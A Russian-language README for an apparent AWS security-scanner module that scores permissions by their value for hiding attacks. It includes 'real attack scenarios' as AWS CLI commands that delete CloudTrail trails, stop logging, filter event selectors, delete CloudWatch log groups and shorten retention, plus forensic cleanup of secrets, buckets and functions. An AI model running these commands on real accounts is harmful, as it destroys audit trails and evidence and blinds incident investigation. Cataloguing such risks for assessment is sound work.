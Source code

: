 # 🗑️ NYX Cloud Scanner Module AWS - Log Deletion Techniques

## 📊 Статистика реализации:
- **12 техник эскалации** (10 критических + 1 высокая + 1 средняя)
- **67 операций проверки** включая CloudWatch/CloudTrail операции
- **60 баллов** максимальная оценка критичности

## 🔴 Критические техники сокрытия следов атак

### **CloudTrail Log Deletion (60 баллов)**
```python
'cloudtrail_delete_trail': 60,  # Удаление CloudTrail трейлов - максимальная угроза для сокрытия аудита
'cloudtrail_stop_logging': 55,  # Остановка логирования CloudTrail
'cloudtrail_put_event_selectors': 50,  # Изменение селекторов событий для фильтрации логов
```

**Что можно сделать:**
- `delete_trail()` - полное удаление трейлов аудита
- `stop_logging()` - остановка логирования без удаления трейла
- `put_event_selectors()` - фильтрация событий для сокрытия активности

### **CloudWatch Logs Deletion (50 баллов)**
```python
'cloudwatch_logs_delete_log_group': 50,  # Удаление групп логов CloudWatch
'cloudwatch_logs_stop_logging': 45,  # Остановка логирования CloudWatch Logs
'cloudwatch_logs_put_retention_policy': 40,  # Изменение политики хранения логов
'cloudwatch_logs_delete_log_stream': 35,  # Удаление потоков логов
```

**Что можно сделать:**
- `delete_log_group()` - удаление групп логов приложений
- `stop_logging()` - остановка логирования Lambda функций
- `put_retention_policy()` - сокращение времени хранения логов до 1 дня
- `delete_log_stream()` - удаление конкретных потоков логов

### **Forensic Cleanup (40 баллов)**
```python
'secrets_manager_delete_secret': 40,  # Удаление секретов для сокрытия следов атаки
's3_delete_bucket': 35,  # Удаление S3 бакетов для сокрытия следов атаки
'lambda_delete_function': 35,  # Удаление Lambda функций для сокрытия следов атаки
```

## 🎯 Новые флоу атак

### **Log Deletion Attack**
- **Требуемые сервисы:** `cloudtrail_delete_trail`, `cloudtrail_stop_logging`, `cloudwatch_logs_delete_log_group`
- **Роли:** `CloudTrailFullAccess`, `CloudWatchLogsFullAccess`
- **Описание:** Удаление логов и сокрытие следов атак

### **Forensic Cleanup Attack**
- **Требуемые сервисы:** `secrets_manager_delete_secret`, `s3_delete_bucket`, `lambda_delete_function`
- **Роли:** `SecretsManagerFullAccess`, `S3FullAccess`, `AWSLambdaFullAccess`
- **Описание:** Удаление следов атаки и очистка инфраструктуры

## 🚨 Эксплуатационная ценность

### **Максимальная угроза (60 баллов):**
- **CloudTrail Delete Trail** - полное сокрытие аудита
- Полная невидимость для SOC/SIEM систем
- Невозможность расследования инцидентов

### **Высокая угроза (50-55 баллов):**
- **CloudTrail Stop Logging** - остановка аудита
- **CloudWatch Logs Delete Group** - удаление логов приложений
- Частичное сокрытие следов атак

### **Средняя угроза (40-45 баллов):**
- **Forensic Cleanup** - удаление артефактов атак
- **CloudWatch Logs Stop Logging** - остановка логирования функций
- Очистка инфраструктуры от следов

## 🔥 Реальные сценарии атак

### **Сценарий 1: Полное сокрытие аудита**
```bash
# 1. Удаление CloudTrail трейлов
aws cloudtrail delete-trail --name production-trail

# 2. Остановка логирования
aws cloudtrail stop-logging --name backup-trail

# 3. Удаление групп логов
aws logs delete-log-group --log-group-name /aws/lambda/monitoring-function
```

### **Сценарий 2: Фильтрация событий**
```bash
# Изменение селекторов для сокрытия активности
aws cloudtrail put-event-selectors \
    --trail-name production-trail \
    --event-selectors '[{
        "ReadWriteType": "ReadOnly",
        "IncludeManagementEvents": false,
        "DataResources": [{
            "Type": "AWS::S3::Object",
            "Values": ["arn:aws:s3:::malicious-bucket/*"]
        }]
    }]'
```

### **Сценарий 3: Сокращение времени хранения**
```bash
# Установка минимального времени хранения
aws logs put-retention-policy \
    --log-group-name /aws/lambda/security-monitor \
    --retention-in-days 1
```

## ⚠️ Критические последствия

1. **Полная потеря аудита** - невозможность расследования
2. **Сокрытие APT атак** - долгосрочное присутствие
3. **Нарушение compliance** - GDPR, SOX, PCI-DSS
4. **Блокировка расследований** - отсутствие доказательств
5. **Повторные атаки** - невозможность обнаружения

